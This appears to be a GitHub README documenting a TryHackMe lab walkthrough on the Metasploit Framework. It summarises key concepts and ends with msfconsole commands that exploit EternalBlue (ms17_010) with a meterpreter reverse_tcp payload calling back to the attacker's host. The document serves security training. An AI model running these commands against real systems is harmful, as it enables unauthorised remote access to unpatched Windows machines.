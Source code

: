 # Metasploit: Introduction (TryHackMe)

This repository documents my hands-on walkthrough and key learnings from the **"Metasploit: Introduction"** room on [TryHackMe](https://tryhackme.com/room/metasploitintro). This room introduces the essential components of the Metasploit Framework and guides through a basic exploitation scenario using the famous EternalBlue vulnerability.

---

## Room Overview

- **Platform**: TryHackMe  
- **Difficulty**: Easy  
- **Category**: Exploitation Basics  
- **Focus**: Metasploit Framework, msfconsole, module usage, EternalBlue exploitation

---

## Key Concepts Learned

- Structure and functionality of the Metasploit Framework
- Navigating and using `msfconsole`
- Working with **Metasploit modules**:
  - Exploits
  - Payloads
  - Auxiliary modules
  - Encoders and NOPs
- Using `search`, `use`, `set`, `run` commands
- Exploiting `ms17_010` (EternalBlue) vulnerability using Metasploit

---

## Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **TryHackMe AttackBox**
- **Windows 7 vulnerable VM (ms17_010)**

---

## Completion
![Room Completion](https://github.com/MayankQuery/tryhackme-writeups/blob/main/metasploit-introduction/images/metasploit-introduction-completion.png)
![Room Practice]()

---

## Exploitation Summary

```bash
msf > search ms17_010
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(...) > set RHOSTS [Target IP]
msf exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(...) > set LHOST [Your IP]
msf exploit(...) > exploit



